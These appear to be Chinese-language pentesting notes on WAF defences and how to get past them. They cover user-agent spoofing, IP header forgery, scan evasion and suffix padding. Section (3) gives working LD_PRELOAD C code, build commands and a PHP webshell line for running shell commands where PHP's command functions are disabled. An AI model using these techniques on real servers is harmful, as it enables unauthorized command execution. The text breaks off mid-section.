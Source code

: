 # web攻击防护
## waf防护原理
* user-agent进行拦截，可以使用爬虫的网址进行绕过，例如百度爬虫（一般使用白名单）
* http检测可以使用post或者cookie值进行绕过（有些之拦截get提交方式）
* http头获取ip可以修改remote-ip或者client-ip
* 文件上传后缀防护
* 敏感函数防护 
* 危险组件防护
* 禁止执行程序
* 一句话拦截
* 内容防护中，会对访问目标进行过滤，有时是使用账号密码，有时是ip限制
* cc攻击防护，限制攻击次数可绕过，或者变换ip
#主体/Waf #方面/基础   


## waf绕过方法
### （1）目录扫描防护绕过
扫描不到任何信息（IP封锁，一般为硬件防火墙，连接重置），扫出来一堆东西（含有waf）
**解决方法：**
* 降低扫描速度
* 爬行工具爬行目录
* 修改`user-agent`
* 尝试代理`ip池`
* 可以尝试白名单服务器扫描（使用加了`白名单ip`）例如：阿里云可以使用阿里云服务器
### （2）特殊文件访问拦截绕过
拦截特殊后缀的文件访问，例如`xxx.sql`或者是`xxx.mdb`
**解决方法：**
* 修改后缀加入垃圾字符搭配匹配规则
* 加入垃圾字符超过拦截长度，绕过防御
* 文件解析，目录解析绕过
### （3）命令执行函数被禁绕过
无法使用web对应的执行函数，执行后没有反应
**解决方法：**
* 使用特定文件`hack.so`文件执行
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h> 
void payload() {
    system("rm /tmp/check.txt");
}   
int  geteuid() {
if (getenv("LD_PRELOAD") == NULL) { return 0; }
unsetenv("LD_PRELOAD");
payload();
}
```
* 编译文件hack.c
```bash
$ gcc -c -fPIC hack.c -o hack 
$ gcc -shared hack -o hack.so
```
* 再上传到webshell上，然后写一段简单的php代码：
```php
<?php putenv("LD_PRELOAD=/var/www/hack.so"); mail("a@localhost","","","",""); ?>
```
在浏览器中打开就可以执行它，然后再去检查新建的文件是否还存在，找不到文件则表示系统成功执行了删除命令，也就意味着绕过成功，测试中注意修改为实际路径。
### （3）常见waf绕过
wts绕过：